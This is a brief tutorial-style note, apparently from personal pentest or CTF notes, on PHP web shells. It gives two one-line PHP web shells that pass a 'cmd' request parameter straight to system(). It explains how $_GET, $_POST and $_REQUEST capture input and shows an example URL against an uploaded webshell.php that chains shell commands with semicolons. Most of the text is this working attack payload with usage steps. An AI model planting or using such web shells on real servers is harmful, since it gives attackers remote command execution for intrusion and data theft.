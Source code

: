 
```php
<?php
    echo system($_GET["cmd"]);
?>
```

```php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

`$_POST` can catch the data which is sent using POST method
`$_GET` can catch the data which is sent using GET method
`$_REQUEST` can catch the data which is sent using **both POST & GET methods**


Use by entering a URL and "view source" for prettier output
http://test.com/uploaded-files/webshell.php?cmd=id;whoami;ls

This also uses the fact that ; at a shell prompt makes it possible to run several commands after each other

